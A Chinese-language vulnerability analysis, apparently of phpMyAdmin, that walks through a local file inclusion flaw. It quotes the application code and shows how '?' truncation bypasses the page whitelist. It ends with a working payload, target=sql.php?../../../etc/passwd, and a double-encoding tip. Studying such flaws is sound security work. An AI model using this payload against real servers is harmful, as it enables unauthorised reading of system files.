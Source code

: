 # include

全局搜索文件包含的关键函数include,require,找到能控制的传参
```
if (! empty($_REQUEST['target'])
    && is_string($_REQUEST['target'])
    && ! preg_match('/^index/', $_REQUEST['target'])
    && ! in_array($_REQUEST['target'], $target_blacklist)
    && Core::checkPageValidity($_REQUEST['target'])
) {
    include $_REQUEST['target'];
    exit;
}
```

找到黑名单target_blacklist
```
$target_blacklist = array (
    'import.php', 'export.php'
);
```
绕过须满足条件,
1.有参数传入
2.参数为字符
3.参数中不能以/^index/开头(这里没由匹配大小写)
4.参数不在黑名单内
5.绕过Core::checkPageValidity(全局搜索)
```
public static function checkPageValidity(&$page, array $whitelist = [])
    {
        if (empty($whitelist)) {
            $whitelist = self::$goto_whitelist;
        }
        if (! isset($page) || !is_string($page)) {
            return false;
        }

        if (in_array($page, $whitelist)) {
            return true;
        }

        $_page = mb_substr(
            $page,
            0,
            mb_strpos($page . '?', '?')
        );
        if (in_array($_page, $whitelist)) {
            return true;
        }

        $_page = urldecode($page);
        $_page = mb_substr(
            $_page,
            0,
            mb_strpos($_page . '?', '?')
        );
        if (in_array($_page, $whitelist)) {
            return true;
        }

        return false;
    }
```
这里原本函数没有设置白名单,与是自动引入白名单,全局搜索goto_whitelist
```
public static $goto_whitelist = array(
        'db_datadict.php',
        'db_sql.php',
        'db_events.php',
        'db_export.php',
        'db_importdocsql.php',
        'db_multi_table_query.php',
        'db_structure.php',
        'db_import.php',
        'db_operations.php',
        'db_search.php',
        'db_routines.php',
        'export.php',
        'import.php',
        'index.php',
        'pdf_pages.php',
        'pdf_schema.php',
        'server_binlog.php',
        'server_collations.php',
        'server_databases.php',
        'server_engines.php',
        'server_export.php',
        'server_import.php',
        'server_privileges.php',
        'server_sql.php',
        'server_status.php',
        'server_status_advisor.php',
        'server_status_monitor.php',
        'server_status_queries.php',
        'server_status_variables.php',
        'server_variables.php',
        'sql.php',
        'tbl_addfield.php',
        'tbl_change.php',
        'tbl_create.php',
        'tbl_import.php',
        'tbl_indexes.php',
        'tbl_sql.php',
        'tbl_export.php',
        'tbl_operations.php',
        'tbl_structure.php',
        'tbl_relation.php',
        'tbl_replace.php',
        'tbl_row_action.php',
        'tbl_select.php',
        'tbl_zoom_select.php',
        'transformation_overview.php',
        'transformation_wrapper.php',
        'user_password.php',
    );
```

这里的绕过思路基于mb_substr,mb_strpos,且进行了两次
 mb_strpos($_page . '?', '?')  的作用是：在字符串  $_page  的末尾追加一个问号  ? ，然后查找第一个问号  ?  的位置。这个操作通常用于 判断 URL 中是否存在查询参数（即  ?  后的部分），并安全地分割路径和参数。
 
构造payload:
?target=sql.php?
例子:target=sql.php?../../../etc/passwd
解析payload:
这里mbstrpos将取得sql.php后的?位置,导致取得的$_page为sql.php,满足条件成功让函数返回ture,回到include处,成功绕过所有条件,完成include函数的执行
这里也可以将?进行两次url编码,绕过下面的.

